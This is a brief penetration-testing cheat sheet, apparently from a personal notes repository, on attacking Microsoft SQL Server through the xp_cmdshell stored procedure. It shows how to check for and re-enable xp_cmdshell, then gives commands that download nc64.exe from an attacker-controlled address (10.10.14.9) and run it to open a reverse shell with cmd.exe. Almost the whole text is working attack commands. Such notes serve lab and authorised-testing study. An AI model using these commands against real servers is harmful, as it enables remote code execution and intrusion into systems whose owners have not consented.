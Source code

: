 # Microsoft SQL server
All info: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

## xp_cmdshell
A common target is to run the stored procedure xp_cmdshell  
Check if user can run:
```bash
EXEC xp_cmdshell 'net user';
```
if deactivated:
```bash
# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
what also works:
```bash
xp_cmdshell 'whoami'
```
upload reverseshell script:
```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9/nc64.exe -outfile nc64.exe"
```
run reverseshell script:
```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443"
```
